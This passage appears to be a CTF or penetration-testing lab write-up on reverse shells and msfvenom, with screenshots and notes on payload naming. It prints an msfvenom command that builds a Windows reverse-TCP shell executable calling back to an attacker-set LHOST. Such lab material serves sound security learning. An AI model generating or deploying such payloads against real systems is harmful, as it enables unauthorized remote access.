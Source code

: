 #### 📸 Screenshot: PowerShell Reverse Shell in Action
![PowerShell Reverse Shell](https://github.com/user-attachments/assets/72cd4332-d37e-43ae-aeaa-e7ce19a8cc08)

---

These payloads are versatile and widely used in CTFs and penetration testing. Ensure your environment supports the needed flags or fallback methods like named pipes and PowerShell.



## 💥 Task 9: msfvenom

Msfvenom is a powerful tool in the Metasploit framework used to generate shell payloads.

---

### 🔧 Common Usage

Generate a reverse shell EXE for Windows:
```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<IP> LPORT=<PORT>
```

- `-p`: Specifies the payload
- `-f`: Output format (e.g., `exe`, `py`, `elf`, `raw`)
- `-o`: Output file name
- `LHOST` / `LPORT`: Listener host and port

#### 📸 Screenshot: Generating Payload with msfvenom
![msfvenom reverse_tcp EXE](https://github.com/user-attachments/assets/0160d655-2dcc-4b31-b92e-2f6a755eb315)

---

### 🧬 Listing Payloads

To list available payloads:
```bash
msfvenom --list payloads | grep "linux/x86/meterpreter"
```

- This shows both staged and stageless payloads.
- Use `grep` to filter by platform, architecture, or type.

#### 📸 Screenshot: Meterpreter Payload Options
![msfvenom Payload List](https://github.com/user-attachments/assets/5f10bbbf-f265-4371-8d73-3842252ae189)

---

### 🔍 Naming Conventions

- **Staged payloads**: use `/`
  - e.g., `windows/x64/meterpreter/reverse_tcp`
- **Stageless payloads**: use `_`
  - e.g., `linux/x86/meterpreter_reverse_tcp`
